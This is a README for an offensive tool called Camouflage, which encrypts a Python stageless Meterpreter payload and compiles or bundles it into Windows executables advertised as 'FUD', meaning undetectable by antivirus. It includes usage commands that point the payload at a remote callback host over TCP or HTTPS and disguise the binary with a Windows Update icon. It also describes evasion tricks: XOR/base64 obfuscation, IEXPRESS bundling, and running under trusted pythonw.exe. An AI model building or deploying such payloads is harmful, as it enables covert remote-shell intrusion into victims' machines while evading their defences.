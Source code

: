 # 𝕮𝖆𝖒𝖔𝖚𝖋𝖑𝖆𝖌𝖊
### ρутнση stageless мєтєяρяєтєя ¢яуρтєя


## Features
- Supports TCP/HTTP/HTTPS python stageless meterpreter.
- Wraps the python meterpreter with an encryption stub.
- Converting the final stub to C code then compiling it to a native executable, or bundling it with an embedded python version in one executable. 
- Produces FUD executables.


## Requirements
- Python3.x
- Windows OS
- MSVC Toolchain (optional)


## Installation

#### This version works on python3 and only supports Windows OS for now.
`python -m pip install -r requirements.txt`

## Examples

#### `python .\camouflage.py -p tcp -H 192.168.140.102:8080 --packer compile -o Final --icon C:\Windows\System32\WindowsUpdateImportant.ico`
#### `python .\camouflage.py -p https -H 192.168.140.102:443 --srw 3 --ua "Meterpreter Test"`


## How it works
#### The script begins by patching "meterpreter.py" with the provided parameters by the user, encrypting the script starts with base64 encoding (first cycle) then xor encrypting with an 8-Byte key then base64 encoding again (second cycle), the result is saved to a stub, the stub then does the opposite to execute the original code, there are two options to pack the script, either by converting it to C and compiling it to a native binary via Nuitka (harder to Reverse Engineer) or bundling the script with an embedable python version using a Windows legacy program called IEXPRESS (more OPSEC) because the scripts gets executed by "pythonw.exe" which is a trusted program by Windows, rather than using flagged methods of bundling (pyinstaller, py2exe, ..etc).
#### At the moment the program only works on Windows because the way it is compiled and bundled, in future releases cross compiling can be added to include Linux support.   



## Demo
#### Windows 11 x64
![Demo](resources/demo.gif)